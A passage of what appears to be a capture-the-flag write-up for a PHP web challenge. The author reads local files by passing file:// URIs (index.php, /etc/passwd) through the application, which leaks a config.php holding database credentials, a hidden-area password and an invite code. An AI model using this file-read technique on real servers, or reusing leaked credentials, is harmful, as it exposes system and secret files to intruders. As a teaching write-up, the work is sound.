 I tried then `[URL]http://localhost/classes/[/URL]` as I already had a list of directories from the *robots.txt* file and it worked out. I was able to read all the PHP sources in those directories, except for `main` and `index.php` which was of the most interest. The sources were helpful but did not contain hints where the flag was. I saw some cookie deserialization procedures there and magic `__contruct`, `__destruct` methods and though of object injection via cookies. However, things were way simpler. I tried to send the `[URI]file:///var/www/html/index.php[/URI]` (in fact, even `/etc/passwd` would work) as part of my guess where the current web root is (default Apache path) and got back the sources of the script which included `config.php`. Doing the same for the latter revealed:

~~~php
<?php
	$con=mysqli_connect("localhost","monkeybase","SlkjDZOnsxKBZU","monkeybase");
	if (mysqli_connect_errno())	{
		echo "Failed to connect to MySQL: " . mysqli_connect_error();
	}
	mysqli_set_charset($con,"utf8");

	// Area51 is on /SuperMonkeysArea51/ SuperMonkey:w34r3th3sup3r0ut3rsp4c3cr34tur35

	$pages=array("main","settings","help","logout","out","iframe");
	$confvars=array(
		"invite_code"	 =>"d991065ab84307e7904e2b9b515a2d69",
		"url"			 =>"http://136.243.194.35/",
		"stream_context" =>	array (
						        'http' => array (
						            'follow_location' => FALSE 
						        )
						    )
	);

	if(!function_exists('checkinput')){
		function checkinput($input){
			global $con;
			return @mysqli_real_escape_string($con,$input);
		}
	}
	if(!function_exists('checkoutput')){
		function checkoutput($input){
			return @htmlspecialchars($input);
		}
	}
	if(!function_exists('redirect')){
		function redirect($url){
			header("location: ".$url);
			die();
		}
	}
	if(!function_exists('strToHex')){
		function strToHex($string){
		    $hex = '';
		    for ($i=0; $i<strlen($string); $i++){
		        $ord = ord($string[$i]);
		        $hexCode = dechex($ord);
		        $hex .= substr('0'.$hexCode, -2);
		    }
		    return strToUpper($hex);
		}
	}
	if(!function_exists('hexToStr')){
		function hexToStr($hex){
		    $string='';
		    for ($i=0; $i < strlen($hex)-1; $i+=2){
		        $string .= chr(hexdec($hex[$i].$hex[$i+1]));
		    }
~~~